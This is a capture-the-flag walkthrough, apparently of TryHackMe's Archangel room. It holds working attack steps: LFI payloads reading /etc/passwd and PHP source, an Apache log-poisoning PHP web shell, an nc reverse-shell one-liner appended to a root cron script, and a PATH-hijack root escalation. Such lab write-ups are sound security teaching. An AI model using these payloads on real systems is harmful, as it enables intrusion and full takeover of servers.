

Let's begin by exporting in the environment variable the IP as 'target':


And by scanning with nmap:
`nmap -sC -sV $target`


Let's browse the IP:

As we can see, there's a hint for a "mafialive.thm" domain, so let's add this domain to the `etc/hosts` file:
`sudo nano /etc/hosts`


Now we can browse by typing the domain in the search bar and catch the first flag:



Next step is fuzzing the app, we will use ffuf for this:
`ffuf -u "http://mafialive.thm/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .php -c -t 50 -r`


If we visit `robots.txt` page we can see that the only entry is `test.php` as ffuf let us see (last row).


Though we're in a CTF, we can click the test button without problems. In a real life scenario we should make sure that the button won't break anything.

Let's click that button.

Now we're in `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`


Let's fuzz for LFI:
`ffuf -u "http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -t 50 -r`

Only to find out many false positives. 
Let's try filtering through size and words:
`ffuf -u "http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -t 50 -r -fs 286 -fw 41`

We've succesfully exploited LFI. Let's inject the code in the URL to exfiltrate /etc/passwd

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//..//..//..//etc/passwd`


Let's try a php filter to exfiltrate data:
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`
Now we have the phrase "Control is an illusion" written in base64.


Let's do it with the entire test.php page:
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`


And decode the exfiltrated data to find the second flag:


Now, given the LFI vulnerability, if we can successfully access the log, we can poison it (log poisoning) to insert our php shell:
`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//../var/log/apache2/access.log`


Now it's time to fire up BurpSuite.
We'll put the php shell in the User-Agent string:
`<?php echo system($_GET['cmd']); ?>`


And we'll try if it's working by injecting `&cmd=whoami` in the URL:
`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//../var/log/apache2/access.log&cmd=whoami`

Now we have code execution.
We can use it to upload a php reverse shell (`shell.php`) using wget and URL encoding the space, immediately after opening the server.


It's time to fire up netcat and visit `mafialive.thm/shell.php`

And...we're in!
`whoami: 
`www-data`


Let's stabilize the shell:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm-color`

Now we're ready to search for the third flag, the one of the first user (www-data).


Let's do some cron enumeration:
` cat /etc/crontab`


We can see that there's a helloworld.sh file that's been executed every minute as root.
If we `ls -la` the file we can see we have write permission on it.


We will echo this one liner into the file and wait for the execution by root:
`echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.21.97.226 4445 >/tmp/f" >> helloworld.sh`
(Activate netcat in another terminal on port 4445)
And obviously, we will stabilize the shell again
and search for the flag of the user archangel.


In the same folder, we can find a file named `backup` owned by root on which we have write permission. if we `strings` the file we can see that the file cp all the files of the `/home/user/archangel/myfiles/*` folder into `/opt/backupfiles`.
What we need to do is to create another cp file with just `/bin/bash` on it and write into the $PATH environment variable the new path of ours `cp` file.
The command to elencate the full path of the OS is `echo $PATH`

```bash
echo $PATH:
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

So:
Create the new cp file:
`echo "/bin/bash" > cp`

Give execution permission:
`chmod +x cp`

Put this folder first into the PATH environment variables:
`export PATH=$PWD:$PATH`

Execute the command:
./backup


Congratulations! You are now root :)


